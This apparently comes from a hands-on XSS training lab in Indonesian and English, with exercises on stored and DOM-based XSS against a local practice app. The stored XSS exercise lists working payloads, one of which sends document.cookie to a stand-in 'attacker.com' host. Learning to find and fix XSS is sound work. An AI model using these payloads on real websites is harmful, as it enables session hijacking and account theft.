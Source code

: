 
## 🎯 Exercise 2: Stored XSS Discovery

### Objective
Temukan dan eksploitasi stored XSS vulnerability dalam comment system.

### Steps
1. Buka http://localhost:8080/stored.php
2. Post comment normal untuk test functionality
3. Post comment dengan payload XSS: `<script>alert('Stored XSS!')</script>`
4. Refresh halaman dan observe behavior
5. Test payload yang lebih advanced

### Questions
1. Apakah payload tersimpan di database?
2. Bagaimana payload dieksekusi saat page load?
3. Apakah semua user yang visit page terpengaruh?
4. Payload mana yang paling efektif?

### Expected Results
- [ ] XSS payload tersimpan di database
- [ ] Alert muncul setiap kali halaman dimuat
- [ ] Payload bersifat persistent

### Advanced Payloads to Try
```html
<script>document.body.innerHTML='<h1>HACKED!</h1>'</script>
<img src=x onerror=alert('Cookie: '+document.cookie)>
<svg onload=alert('User Agent: '+navigator.userAgent)>
<script>
new Image().src='http://attacker.com/steal.php?data='+document.cookie;
</script>
```

---

## 🎯 Exercise 3: DOM-based XSS Discovery

### Objective
Temukan DOM XSS melalui manipulasi client-side JavaScript.

### Steps
1. Buka http://localhost:8080/dom.php
2. Test URL fragment: `dom.php#<script>alert('DOM XSS')</script>`
3. Test berbagai input fields dengan payload XSS
4. Analyze JavaScript code untuk understand vulnerability
5. Test payload yang lebih sophisticated

### Questions
1. Bagaimana JavaScript memproses input?
2. Method apa yang digunakan untuk DOM manipulation?
3. Apakah ada server-side involvement?
4. Kenapa payload dieksekusi di client-side?
